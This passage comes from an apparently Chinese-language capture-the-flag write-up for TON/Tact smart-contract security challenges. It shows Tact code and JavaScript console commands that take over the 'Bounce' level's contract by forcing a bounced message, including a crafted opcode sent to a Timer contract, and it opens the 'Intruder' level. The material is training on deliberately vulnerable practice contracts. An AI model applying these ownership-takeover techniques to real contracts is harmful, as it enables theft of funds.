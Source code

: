        bounced(_: Slice) {
            self.owner = self.player;
        }

        receive("check") {
            send(SendParameters{
                to: sender(),
                value: 0,
                mode: SendRemainingValue,
                bounce: false,
                body: CheckLevelResult{
                    name: "bounce",
                    completed: self.owner == self.player
                }.toCell()
            });
        }
    }
    ```

- 合约 `BounceLevel` 收到弹回的消息后就会将玩家设为合约所有者
- 只需要在发送完 `start` 的三分钟后向 `BounceLevel` 发送 `finish`，让合约 `Timer` 抛出错误弹回消息即可
    - 或直接向 `Timer` 发送 `start` 设置自定义开始时间

    ```js
    > await contract.send(player, {value: toNano('0.05')}, "start");
    // or
    > await player.send({to: Address.parse("kQCmY8KG3F2y-2Unxl2jMtJMIUjT9fWhqXWM37hPHWbnPIjp"), value: toNano("0.01"), body: beginCell().storeUint(1141136470, 32).storeUint(0, 32).endCell()});
    // opcode: sha256("Start{time:uint32}") >> 224

    > await contract.send(player, {value: toNano('0.05')}, "finish"); 
    ```

### References

- [tact-lang / tact](https://github.com/tact-lang/tact/blob/ecae8d73c2cafef31c3c2ffebf1c69a5a89cb506/src/types/resolveSignatures.ts#L283-L291)

## 4. INTRUDER

> Claim ownership of the contract below to complete this level.

??? note "IntruderLevel"

    ```js
    import "@stdlib/deploy";
    import "./messages";

    message(0x6e38a063) ChangeLevelOwner {
        newOwner: Address;
    }

    message(0x6f13c225) ChangeClientOwner {
        newOwner: Address;
    }
